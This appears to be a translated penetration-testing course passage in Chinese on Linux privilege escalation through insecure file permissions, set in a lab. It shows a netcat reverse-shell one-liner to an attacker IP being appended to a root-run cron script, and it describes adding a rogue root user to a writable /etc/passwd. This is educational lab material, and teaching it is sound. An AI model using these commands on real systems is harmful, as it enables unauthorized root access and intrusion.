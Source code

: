 通俗地说，“一切都是一个文件”。每个文件（扩展到Linux系统的每个元素）都遵循基于三个主要能力的用户和组权限：读、写和执行。

### 不安全的文件权限：Cron案例研究

当我们将注意力转向权限提升技术时，我们将首先利用不安全的文件权限。与我们的Windows示例一样，我们假设我们已经以非特权用户的身份访问了Linux目标机器。

为了利用不安全的文件权限，我们必须找到一个可执行文件，该文件不仅允许我们进行写访问，而且可以在提升的权限级别上运行。在Linux系统上，cron基于时间的作业调度器是主要目标，因为系统级调度作业是以root用户权限执行的，而系统管理员通常为cron作业创建脚本，而权限不安全。

在本例中，我们将SSH连接到我们的专用Debian客户机。在前面的文件系统中，我们显示了在目标系统上安装的作业。我们还可以检查cron日志文件（/var/log/cron.log日志)对于运行cron作业：

```
grep "CRON" /var/log/cron.log
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606464187573-17327a49-c3a5-4882-8454-35a7e288829a.png)

似乎一个/var/scripts/下名为user_backups.sh的脚本在根用户的上下文中执行。从时间戳来看，这个作业似乎每五分钟运行一次。

我们可以检查脚本的位置和权限。

```
cat /var/scripts/user_backups.sh
ls -lah /var/scripts/user_backups.sh
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606464425594-fd55c757-fd52-4f58-9a6c-64e90e1fcb36.png)

由于非特权用户可以修改备份脚本的内容，所以我们可以编辑它并添加一个反向shell一行程序。如果我们的计划成功了，我们应该在最多五分钟的时间后，在我们的攻击机器上收到一个root级别的反向shell。

```
echo >> user_backup.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606464569392-a301c670-b2f5-4da7-bbd4-a544bb2b0ecd.png)

我们现在要做的就是在Kali Linux机器上设置一个侦听器，然后等待cron作业执行：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606465447478-d582a721-d6b1-40f9-928e-d88e5eb6b0ef.png)

如上图所示，cron作业确实执行了，与一行反向shell一样。我们已经成功提升了对目标的访问权限。

虽然这只是个简单的例子，我们在这个领域遇到过一些类似的情况，因为管理员通常更关注于争论cron的奇怪语法，而不是保护脚本文件权限。

### 不安全的文件权限：/etc/passwd案例研究

除非使用像active directory或LDAP这样的集中式凭证系统，否则Linux密码通常存储在/etc/shadow中，这是普通用户无法读取的。然而，从历史上看，密码哈希和其他帐户信息都存储在世界可读文件/etc/passwd中。为了向后兼容，如果密码散列出现在/etc/passwd用户记录的第二列中，则认为该哈希对身份验证有效，并且优先于/etc/shadow中的相应条目（如果可用）。这意味着，如果我们可以写入/etc/passwd文件，就可以有效地为任何帐户设置任意密码。

让我们来演示一下。在上一节中，我们展示了由于/etc/passwd权限设置不正确，Debian客户机可能容易受到权限提升的影响。为了提升我们的权限，我们将在/etc/passwd文件中添加另一个超级用户（root2）和相应的密码散列。我们将首先在openssl和passwd参数的帮助下生成密码散列。默认情况下，如果没有指定其他选项，openssl将使用crypt算法生成哈希，它是Linux身份验证支持的哈希机制。生成哈希后，我们将使用适当的格式在/etc/passwd中添加一行：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606465826367-b1587e8a-de91-4164-aeaf-3ad476908a0c.png)
